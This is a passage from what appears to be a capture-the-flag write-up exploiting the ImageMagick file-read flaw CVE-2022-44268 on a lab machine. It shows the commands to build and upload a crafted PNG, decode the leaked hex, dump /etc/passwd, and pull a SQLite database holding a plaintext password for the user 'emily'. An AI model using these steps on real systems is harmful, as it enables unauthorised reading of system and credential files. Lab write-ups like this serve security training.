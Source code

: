 From that I see a password is stored in `/var/db/pilgrimage`.

## Exploit

There's an LFI exploit for this version of ImageMagick: <https://github.com/voidz0r/CVE-2022-44268>

Create the test payload:

```console
$ convert ~/655bbd2283d4a.png -resize 50% output.png
```

I upload `output.png` to the vulnerable service, and download the new file, `655bbd2283d4a.png`. To read the response, I have to use an ImageMagick command called `identify`, which includes the output. I can pipe it directly to `python3` to decode the hexadecimal encoding like this:

```console
$ python3 -c "print(bytes.fromhex(\"$(identify -verbose output.png |grep '^[a-f0-9]'|xargs | sed 's/ //g')\"))"
b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n_apt:x:100:65534::/nonexistent:/usr/sbin/nologin\nsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:109::/nonexistent:/usr/sbin/nologin\nsystemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nemily:x:1000:1000:emily,,,:/home/emily:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nsshd:x:105:65534::/run/sshd:/usr/sbin/nologin\n_laurel:x:998:998::/var/log/laurel:/bin/false\n'
```

I'll try to view the database with the password:

```console
$ rm -f *png; cargo run '/var/db/pilgrimage'
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target/debug/cve-2022-44268 /var/db/pilgrimage`

```

```console
$ python3 -c "print(bytes.fromhex(\"$(identify -verbose output.png |grep '^[a-f0-9]'|xargs | sed 's/ //g')\"))"
b'SQLite format 3\x00\x10\x00\x01\x01\x00@  \x00\x00\x00?\x00\x00\x00\x05\x00\x00\x[...]
```

I could recreate the binary version of the db and view it via `sqlite3`, but this string stands out and saves some steps:

```console
[...]0\x18\x01\x03\x17-emilyabigchonkyboi123\n\x00\x00\x00\x01\x0f\xf7\x00\x0f\xf7\x00\x00\x00\x00[...]
```
